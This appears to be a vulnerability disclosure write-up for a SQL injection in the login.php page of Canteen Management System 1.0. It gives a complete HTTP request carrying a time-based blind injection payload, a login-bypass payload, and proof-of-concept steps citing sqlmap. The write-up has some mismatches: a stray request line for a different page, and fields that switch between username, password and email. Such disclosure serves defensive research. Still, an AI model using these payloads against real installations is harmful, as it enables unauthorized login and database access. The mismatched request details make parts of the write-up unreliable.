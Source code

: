 # Canteen Management System - login.php 'username' SQL inject

#### Exploit Title: Canteen Management System - login.php 'username' SQL inject

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: https://www.sourcecodester.com/php/15688/canteen-management-system-project-source-code-php.html

#### Software Link:https://www.sourcecodester.com/php/15688/canteen-management-system-project-source-code-php.html

#### Version: Canteen Management System 1.0

#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Canteen Management System does not filter the content correctly at the "login.php /username" parameter, resulting in the generation of SQL injection.

#### Payload used:

```POST /medicine_details.php HTTP/1.1
POST /login.php HTTP/1.1
Host: 192.168.67.10:8091
Content-Length: 97
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.67.10:8091
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.67.10:8091/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=g1diqn5ba9l5npktcpl5jc287t
Connection: close

username=1' AND (SELECT 6691 FROM (SELECT(SLEEP(5)))slLY) AND 'lrcD'='lrcD&password=123456&login=
```

#### Proof of Concept

1、Grab the package at the login and find that the login program is in login php

![image](https://github.com/joinia/webray.com.cn/blob/main/youthappam/images/login.png)

2、Looking at the source code, it is found that the password field is directly brought into the SQL statement query without filtering

![image](https://github.com/joinia/webray.com.cn/blob/main/youthappam/images/usernamesouce.png)

3、Use payload "sleep (10)" for blind SQL injection.It is found that the time blind injection is successful

![image](https://github.com/joinia/webray.com.cn/blob/main/youthappam/images/usernameburp.png)

4、We can also construct a payload for universal password login

payload:`email=manager%40manager.com&password=1'or '1'='1&managerLogin=`

![image](https://github.com/joinia/webray.com.cn/blob/main/youthappam/images/usernameloginsuccess.png)

4、Through testing with the tool, it is found that there are other injection methods such as blind SQL time injection.

![image](https://github.com/joinia/webray.com.cn/blob/main/youthappam/images/usernamesqlmap.png)

